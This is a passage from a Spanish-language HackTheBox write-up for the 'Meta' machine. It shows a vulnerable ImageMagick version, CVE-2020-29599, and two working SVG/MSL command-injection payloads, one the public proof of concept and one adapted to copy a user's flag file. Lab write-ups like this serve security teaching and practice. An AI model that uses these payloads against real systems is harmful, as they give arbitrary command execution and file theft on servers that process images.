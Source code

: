 El script trata de convertir cualquier archivo existente en el directorio **`convert_images`** a formato **`.png`**

Revisemos la ayuda del programa para ver qué versión se está ejecutando (omitiré el resto del output ya que no es relevante).

```console
www-data@meta:/var/www$ mogrify --help
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
```

Sabiendo esto podemos consultar en Google si existe alguna vulnerabilidad para esta versión:

![Búsqueda](/assets/images/hackthebox/machines/meta/search_vuln1.png)

Los primeros resultados no me parecen interesantes así que directamente nos centramos en este:

![Búsqueda](/assets/images/hackthebox/machines/meta/search_vuln2.png)

La versión de ImageMagick que se está utilizando es vulnerable a **[OS Command Injection](https://portswigger.net/web-security/os-command-injection)** tal y como nos explican aquí: [CVE-2020-29599](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-29599)

Siguiendo los enlaces para tratar de obtener más información, acabamos llegando a esta página: [https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html "ImageMagick Shell Injection via PDF")

Tras un rato leyendo la página, nos muestran un **`POC (Proof of Concept)`** bajo archivos **`.svg`** para explotar la vulnerabilidad haciendo uso de **`MSL (ImageMagick Scripting Language)`**

**poc.svg**:
```xml
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

Creamos un nuevo directorio dentro de **`/tmp`** y dentro de él, creamos un archivo llamado **`poc.svg`**

```console
www-data@meta:/var/www$ mkdir /tmp/any0ne; cd /tmp/any0ne && nano poc.svg
```

El contenido de este archivo será el siguiente:

```xml
<image authenticate='ff" `echo $(cat /home/thomas/user.txt)> /dev/shm/userflag`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```
